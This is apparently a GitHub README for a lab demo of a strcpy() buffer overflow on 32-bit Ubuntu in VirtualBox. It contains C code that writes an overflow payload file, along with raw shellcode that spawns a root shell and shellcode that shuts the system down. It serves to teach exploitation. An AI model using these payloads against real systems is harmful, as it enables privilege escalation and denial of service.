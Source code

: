 # Buffer-Overflow-attacks

int main(){
	FILE* badf;
	badf = fopen("badfile","w");
	char buff[517];
	for(int i=0;i<517;i++)
		buff[i] = nop[0];
	int ind = 0;	
	for(;ind<24;){
		buff[ind++] = 'd';
	}
	for(int i=0;i<strlen(ret_addr);i++){
		buff[ind++] = ret_addr[i];
	}
	ind += 64;
	//for(int i=0;i<strlen(shutdown_shellcode);i++){
	//	buff[ind++] = shutdown_shellcode[i];
	//}
	for(int i=0;i<strlen(root_shell);i++){
		buff[ind++] = root_shell[i];
	}
	buff[ind] = '\0';
	fwrite(buff,517,1,badf);
	return 0;
}

In this demo I walk through the process of using a buffer overflow vulnerability in the C++ strcpy() function to both spawn a root shell and shut down the system. For this demo I am using 32-bit Linux Ubuntu 14.04 in Virtual Box. My system is Little Endian (as is the case with most, if not all, Intel CPU's from what I understand). 

Applications used: g++, perl, gdb

**Notes**

A quick way to find the endianess of your system:

https://github.com/asanchez1103/Code-...​

While filming, I forgot that $rsp is the stack pointer on a 64-bit system

Shell codes were obtained from: http://shell-storm.org/shellcode/​

Spawn Root Shell shellcode:
\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh


Shutdown shellcode 
-http://shell-storm.org/shellcode/file...​
\x31\xc0\x31\xd2\x50\x66\x68\x2d\x68\x89\xe7\x50\x6a\x6e\x66\xc7\x44\x24\x01\x6f\x77\x89\xe7\x50\x68\x64\x6f\x77\x6e\x68\x73\x68\x75\x74\x68\x6e\x2f\x2f\x2f\x68\x2f\x73\x62\x69\x89\xe3\x52\x56\x57\x53\x89\xe1\xb0\x0b\xcd\x80




https://stackoverflow.com/questions/59316935/cant-get-root-shell-on-buffer-overflow-assignment
